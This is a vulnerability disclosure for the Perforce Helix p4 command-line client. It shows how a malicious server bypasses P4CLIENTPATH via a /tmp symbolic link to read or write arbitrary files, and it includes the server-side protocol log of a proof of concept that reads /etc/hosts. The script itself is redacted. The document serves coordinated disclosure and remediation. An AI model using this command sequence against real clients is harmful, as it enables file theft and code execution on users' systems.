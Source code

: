 ```yaml
---
layout: post
title: Perforce - Helix Command-Line Client P4CLIENTPATH  Leading to Arbitrary File Read / Write
category: bugreports
---
```


The `p4` Helix Command-Line Client uses the optional `P4CLIENTPATH` environment variable to restrict directories to which the application permitted to read or write files. This configuration can be trivially bypassed allowing a malicious Perforce server to read or write arbitrary files on the client system.

<!--more-->

*Patch notes resulting from this bug report be viewed at [https://www.perforce.com/perforce/r19.1/user/relnotes.txt](https://www.perforce.com/perforce/r19.1/user/relnotes.txt) #1810430 (Bug #98540)*

<pre class="bugreport">
Description:       Helix Command-Line Client P4CLIENTPATH  Leading to Arbitrary File Read / Write
Versions Affected: 2014.1 through 2019.1 Patch 1
Category:          Arbitrary File Read / Write
Reporter:          Alex Chapman

Summary:
--------
The `p4` Helix Command-Line Client uses the optional `P4CLIENTPATH` environment variable to restrict directories to which the application is permitted to read or write files. This configuration can be trivially bypassed allowing a malicious Perforce server to read or write arbitrary files on the client system.

Details:
--------
The optional `P4CLIENTPATH` environment variable is meant to restrict directories to which the `p4` client application is permitted to read or write files. No matter the value of the environment variable, the client is permitted to write files to the `/tmp` directory, and there is no restriction on creating symbolic links.

Since the `p4` Helix Command-Line Client responds to arbitrary server commands, including the `client-WriteFile` and `client-SendFile` commands, a malicious Perforce server can create a symbolic link to the root directory from the `/tmp` directory (using the `client-WriteFile` command) in order to disclose the contents of arbitrary files from the client system, or write arbitrary files to the client system. 

Analysis:
---------
Exploitation of this vulnerability allows a malicious server to write arbitrary data to any file path accessible to the user running the `p4` client, regardless of the `P4CLIENTPATH` configuration. As an example of exploiting this issue, overwriting a `~/.profile` on *nix base systems would allow for Remote Code Execution when the user next starts a shell. Alternatively, a malicious server can request the client send the contents of arbitrary files, potentially disclosing sensitive client information.

This issue could be exploited in several ways, including:
1. Abusing CI/CD systems which allow users to specify arbitrary Perforce servers from which to obtain source
2. Intercepting non-TLS encrypted p4 connections on untrusted networks (e.g. Public Wifi)
3. Convincing users through the use of social engineering techniques to connect to a malicious Perforce server

In order to remediate this issue the creation of Symbolic Links should be restricted when the `P4CLIENTPATH` environment variable is configured.

Proof of Concept:
-----------------
See the Proof of Concept Python3 script at ***redacted***. Below is the server side output of this script when a p4 client connects using the `./p4 -p &lt;server_address&gt;:&lt;server_port&gt; login` command with the `P4CLIENTPATH` environment variable set to `/home/user/p4/`. This output shows the contents of the clients `/etc/host` file being sent to the server.

# python3 server.py 1667
p4server listening on 0.0.0.0:1667
Received connection
 &lt; Receiving commands
protocol(cmpfile='', client='85', api='99999', enableStreams='', enableGraph='', expandAndmaps='', host='ubuntu', port='perforce.example.com:1667', sndbuf='319487', rcvbu
f='319488')
 &gt; Sending commands
protocol(xfiles='7', server='3', server2='46', serverID='master', revver='9', tzoffset='0', security='3', sndbuf='34559', rcvbuf='280800', autoTune='1')
 &gt; Sending commands
client-Ping()
 &lt; Receiving commands
user-login(version='2018.2/LINUX26X86_64/1751184', autoLogin='', prog='p4', client='ubuntu', cwd='/home/user/p4', host='ubuntu', os='UNIX', user='user
', charset='1', clientCase='0')
 &gt; Sending commands
client-OpenFile(path='/tmp/symlink', type='400', handle='sync')
 &gt; Sending commands
client-WriteFile(data='/\n', handle='sync')
 &gt; Sending commands
client-CloseFile(data='', commit='', handle='sync')
 &gt; Sending commands
client-SendFile(handle='0', path='/tmp/symlink/etc/hosts', open='open_file_result', write='read_file_result', confirm='confirm', decline='decline')
 &gt; Sending commands
release()
 &lt; Receiving commands
dm-Ping()
 &lt; Receiving commands
open_file_result(fileSize='232', handle='0', path='/tmp/symlink/etc/hosts', open='open_file_result', write='read_file_result', confirm='confirm', decline='decline')
 &lt; Receiving commands
read_file_result(data='127.0.0.1\tlocalhost\n127.0.1.1\tubuntu\n...', handle='0')
Contents of '/tmp/symlink/etc/hosts':
        127.0.0.1       localhost
        127.0.1.1       ubuntu

        # The following lines are desirable for IPv6 capable hosts
        ::1     ip6-localhost ip6-loopback
        fe00::0 ip6-localnet
        ff00::0 ip6-mcastprefix
        ff02::1 ip6-allnodes
        ff02::2 ip6-allrouters

 &lt; Receiving commands
confirm(data='', fileSize='232', digest='0991B6FEC21002CDCA46AA738B3BBDA6', time='1568203510', handle='0', path='/tmp/symlink/etc/hosts', open='open_file_result', write='rea
d_file_result', confirm='confirm', decline='decline')
 &lt; Receiving commands
release2()

Timeline
--------
20190423 - Supplied perforce with vulnerability details
20190423 - Initial vendor response and request for more information
20190423 - Further information supplied
20190425 - Issue Confirmed
20190903 - Patch issued Perforce #1810430 (Bug #98540)
</pre>
